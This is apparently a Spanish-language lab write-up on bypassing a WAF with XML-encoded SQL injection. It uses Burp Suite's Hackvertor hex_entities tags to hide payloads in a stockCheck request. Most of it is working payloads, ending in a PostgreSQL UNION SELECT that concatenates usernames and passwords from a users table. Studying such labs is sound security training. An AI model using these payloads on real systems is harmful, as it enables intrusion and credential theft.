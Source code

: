 
https://www.youtube.com/watch?v=XS7Onp8mWS8&ab_channel=RINKU

La idea va a ser usar hackvertor, una extensión de burpsuite pro, para poner el payload entre ciertas etiquetas xml que no son detectadas por el WAF.

![[Pasted image 20250115180046.png]]

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		2
	</productId>
	<storeId>
		<@hex_entities>
			3 OR 1=1 -- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```

Podemos usar diferentes tipos de encoding y etiquetas

Descubrimos que solo podemos mostrar datos en una columa
![[Pasted image 20250115180535.png]]

Funciona
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		2
	</productId>
	<storeId>
		<@hex_entities>
			3 UNION SELECT username FROM users -- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```

No funciona (dos columnas)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		2
	</productId>
	<storeId>
		<@hex_entities>
			3 UNION SELECT username,password FROM users -- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```


Al ser un postgres : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		2
	</productId>
	<storeId>
		<@hex_entities>
			3 UNION SELECT username||':'||password from users -- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```